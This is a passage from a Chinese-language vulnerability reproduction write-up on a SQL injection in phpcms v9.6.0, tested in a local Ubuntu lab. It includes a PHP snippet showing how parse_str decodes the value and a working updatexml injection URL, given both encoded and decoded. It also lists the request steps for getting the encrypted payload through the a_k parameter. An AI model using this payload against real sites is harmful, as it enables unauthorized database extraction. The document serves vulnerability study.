 在对a_k解密后使用parse_str将字符串解析到变量并解码。如下代码，输出的id为:'union select

	<?php 
	$test='id=%27union%20select';
	parse_str($test);
	echo $id;
	?>

最后在第26行处代码处(down.php)将id传入sql查询语句。

### 2.2&emsp;漏洞环境搭建 ###

**我的环境在Ubuntu中复现**

1. 安装Ubuntu虚拟机
2. 安装PHP环境（Apache+php+mysql）
3. 下载phpcms v9.6.0源码进行安装
4. 通过后台管理员密码进行登录，配置开启WAP模块
5. 配置完成，访问`http://192.168.119.131/phpcms/install_package/index.php?m=wap&c=index&a=init&siteid=1`进行查看，wap是否开启

### 2.3&emsp;漏洞验证 ###

1. 访问`http://192.168.119.131/phpcms/install_package/index.php?m=wap&c=index&a=init&siteid=1`获取cookie。
![PHPCMS]({{ '/styles/images/phpcms/2.png' | prepend: site.baseurl  }})

2. 把这个cookie的值复制下来以POST传入userid_flash变量访问

		/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id=%*27%20and%20updatexml%281%2Cconcat%281%2C%28select%20flag%20from%20flag%3B%29%29%2C1%29%23%26m%3D1%26f%3Dhaha%26modelid%3D2%26catid%3D7%26

	该URL通过url解码后是

		/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=&id=%*27 and updatexml(1,concat(1,(select flag from flag;)),1)#&m=1&f=haha&modelid=2&catid=7&

	其中`select flag from flag;`可以换成任一SQL注入语句。通过该cookie获取att_json。
![PHPCMS]({{ '/styles/images/phpcms/3.png' | prepend: site.baseurl  }})

3. 上一步我们已经获取到了通过json在通过cookie加密的SQL了因为他返回的cookie就是已经加密的SQLPayload现在我们传入到a_k变量，访问

		http://192.168.119.131/phpcms/install_package/index.php?m=content&c=down&a_k=8532s3x_Spdkw0xiFxEcKyivtW4Sh8zyDV07Yyl2MOds0nULY-wjT9y3RLa4P-Fj7FBzUkhIct0DRpcIE1bwI6pklJAazBejhJIqRJF3hxaYB6S2e_ogokZOsiXYHulCW6-_yhFYziGpsy9H0dW93f7ZeU5VYf-Y-OILu22tlk3pUThLDLUnXyUVvZh8pc9YXmjGHMz4NeE

	查看返回结果：
![PHPCMS]({{ '/styles/images/phpcms/4.png' | prepend: site.baseurl  }})
可以看到SQL语句执行成功并将结果返回在页面中。

4. SQL语句回显出结果，证明漏洞验证成功。

## 3.&emsp;漏洞原理分析 ##
